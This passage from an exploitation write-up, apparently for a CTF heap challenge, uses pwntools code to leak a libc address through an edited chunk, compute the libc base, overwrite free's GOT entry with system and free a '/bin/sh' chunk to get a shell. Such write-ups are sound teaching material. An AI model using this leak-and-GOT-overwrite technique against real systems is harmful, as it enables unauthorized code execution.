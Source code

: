 Now we just attempt to edit Chunk 0. Because it would print the libc address as soon as we enter the index, we'll have to do this part manually or the `p.sendlineafter()` lines would skip over the leak.

```python
p.sendline('2')
p.sendlineafter('Index: ', '0')

print(p.clean())
```

The response we get is

```
b'@u\xdb%\xc0\x7f\nData: '
```

So it worked! Let's just parse the response and print out the leak.

```python
free_leak = u64(p.recv(6) + b'\x00\x00')
log.success('Free Leak: ' + hex(free_leak))
libc.address = free_leak - libc.symbols['free']
log.success('Libc base: ' + hex(libc.address))

p.recvuntil('Data: ')                       # just receive the rest
```

```
[+] Free Leak: 0x7f2211927540
[+] Libc base: 0x7f22118a3000
```

Perfect.

### Getting a Shell

This is quite simple - change a GOT entry such as `free` and replace it with `system`. Then, if the chunk contains `/bin/sh`, it'll get passed to the function as a parameter.

You may notice the 2nd and 3rd chunks have been untouched so far, so we could easily place the `/bin/sh` in one of those right at the beginning for use now.

```python
# right at the beginning
alloc()
alloc(data='/bin/sh\x00')
alloc()
alloc(data='A' * 0x98)
alloc()
```

We're currently halfway through using `edit()` on `free@got`, so we can just continue inputting `system@libc` as the data, then free Chunk 1.

```python
p.sendline(p64(libc.symbols['system']))     # pass in system@libc as the data
free(1)     # trigger system@libc with the parameter /bin/sh

p.interactive()
```
